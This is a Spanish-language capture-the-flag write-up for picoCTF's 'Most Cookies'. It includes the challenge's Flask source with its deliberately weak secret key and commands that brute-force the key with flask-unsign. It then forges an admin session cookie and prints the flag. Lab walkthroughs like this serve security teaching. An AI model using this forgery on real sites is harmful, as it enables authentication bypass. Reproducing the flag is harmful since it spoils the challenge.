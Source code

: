 # Most Cookies

## Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
## Solucion
Vamos a la pagina, y podemos ver que es similar a un reto pasado, pero la cookie no es igual a la anterior, la vemos con ayuda de cookie editor:

```session
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-4VPQ.VxlunfHnSbIuXQervKkSsYiAPFU
```

Investigando un poco, esto se debe a que el sitio esta usando cookies de flask, y estan firmadas con una palabra clave, esto tambien lo podemos ver en el codigo que nos proporciona el mismo reto:
```python 
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "blank":
                        return render_template("index.html", title=title)
                else:
                        return make_response(redirect("/display"))
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/search", methods=["GET", "POST"])
def search():
        if "name" in request.form and request.form["name"] in cookie_names:
                resp = make_response(redirect("/display"))
                session["very_auth"] = request.form["name"]
                return resp
        else:
                message = "That doesn't appear to be a valid cookie."
                category = "danger"
                flash(message, category)
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/reset")
def reset():
        resp = make_response(redirect("/"))
        session.pop("very_auth", None)
        return resp

@app.route("/display", methods=["GET"])
def flag():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
                flash("That is a cookie! Not very special though...", "success")
                return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

if __name__ == "__main__":
        app.run()

```
Vemos que hay otra cookie llamada sesion, la cual, para poder obtener la flag, debemos de ser admin, pero si vemos la cookie, vemos que actualmente no lo somos:
```bash
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ echo "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-4VPQ.VxlunfHnSbIuXQervKkSsYiAPFU" | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
```
Vemos que la cookie tiene el valor de la galleta que nosotros ingresamos, entonces lo que vamos a hacer es que vamos a usar una herramienta llamada Flask-Unsign para ver con cual palabra es que se esta firmando la cookie y poder bypassear el filtro:
```bash
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ pipx install flask-unsign       
  installed package flask-unsign 1.2.1, installed using Python 3.13.2
  These apps are now globally available
    - flask-unsign
done! ✨ 🌟 ✨
```
Vamos a usar el siguiente diccionario con las posibles galletas para ver con cual se esta firmando:
```galletas
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```

Ahora corremos la herramienta de la siguiente forma:
```sh
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-4VPQ.VxlunfHnSbIuXQervKkSsYiAPFU" --wordlist Cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```

Vemos cual es la palabra con la que se firma, y lo que hacemos ahora es que vamos a alterar la cookie:
```sh
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-4YQQ.umzAsx0A-SCcH0-8fli7oDh1Fd4
```

Y ahora que tenemos la cookie, nos vamos nuevamente al navegador, y con ayuda de cookie editor, editamos la cookie session y obtenemos la flag:
```flag
picoCTF{pwn_4ll_th3_cook1E5_22fe0842}
```

## Notas adicionales

## Referencias
https://github.com/Paradoxis/Flask-Unsign
https://youtu.be/ufs1xqSQCUM?si=reCW5Rd34c4FfDJB
